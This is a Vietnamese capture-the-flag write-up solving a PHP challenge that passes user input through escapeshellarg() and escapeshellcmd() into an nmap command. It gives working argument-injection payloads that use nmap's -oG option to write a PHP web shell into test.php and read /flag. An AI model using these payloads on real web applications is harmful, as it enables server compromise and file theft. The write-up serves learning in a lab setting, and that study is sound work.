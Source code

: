 Challenge cho ta source code sau:

```php
<?php
 
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
 
if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

Đầu tiên là `REMOTE_ADDR` và `X_FORWARDED_FOR` cũng ko quan trọng mấy.Ta có thể truyền tham số “host” thông qua method GET. Nếu tham số host có tồn tại thì nó sẽ được xử lí lần lượt qua 2 hàm `escapeshellarg()` và `escapeshellcmd()`.Đối với hàm `escapeshellarg()` trong PHP được sử dụng để bảo vệ các đối số được truyền vào cho một lệnh shell. Nó thực hiện việc xử lý các ký tự đặc biệt trong đối số để đảm bảo rằng chúng không được hiểu nhầm là các ký tự có ý nghĩa đặc biệt trong shell,và nó bọc dấu ngoặc đơn để đảm bảo rằng các ký tự đặc biệt không được hiểu là phần của lệnh, mà chỉ được coi là phần chuỗi.

`escapeshellcmd` Đảm bảo rằng user chỉ thực hiện một command.Dấu “\” sẽ được thêm vào trước các kí tự & #; `| \? ~ <> ^ () [] {} $ *, \ X0A và \ xFF

Sau khi xử lí host qua 2 hàm trên, thì nó tạo một thư mục với tên là một mã băm MD5 của chuỗi "glzjin" và địa chỉ IP của người dùng ($_SERVER['REMOTE_ADDR']). Điều này có thể tạo ra một thư mục duy nhất cho mỗi người dùng.Sau đó chuyển `you are in sandbox` vào thư mục được tạo.Cuối cùng, sử dụng hàm system() để thực thi lệnh "nmap" với các tùy chọn. Lệnh này sẽ chạy công cụ quét mạng Nmap với các tùy chọn "-T5 -sT -Pn --host-timeout 2 -F" và địa chỉ IP hoặc tên miền đã được truyền qua biến $_GET['host']. Kết quả của lệnh được xuất ra trình duyệt.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4c964fda-0b73-49b1-8969-07d3b48ad741)


![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2bd5a9be-1080-46f1-979f-e7cdf3a96f3b)

Mình có đọc [wu](https://security.szurek.pl/en/exploit-bypass-php-escapeshellarg-escapeshellcmd/#gitlist-rce-exploit) này, theo wu viết thì có cách để bypass 2 hàm này là Argument injection - tấn côn dựa trên việc giả các tham số.Vậy ta có pass vào các option mới cho command.Tùy vào command mà challenge cho thì cách bypass khác nhau. Với command của challenge cho là

`nmap -T5 -sT -Pn --host-timeout 2 -F`

Viết một Trojan link

`?host=' <?php echo phpinfo();?> -oG test.php '`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/90600511-02cb-4825-b1ea-ce1ebb3a3d45)

Mình sử dụng antsword để check xem nó có hoạt động ko

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/5b42520c-d23a-49b2-bd12-dd80bf25dc40)

Mình tiếp tục inject, sử dụng option -oG của nmap để viết command và ouput vào 1 file.

`?host=' <?php echo `cat /flag`;?> -oG test.php '"`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/0f806814-75af-45c5-92d3-77a65e188bf0)

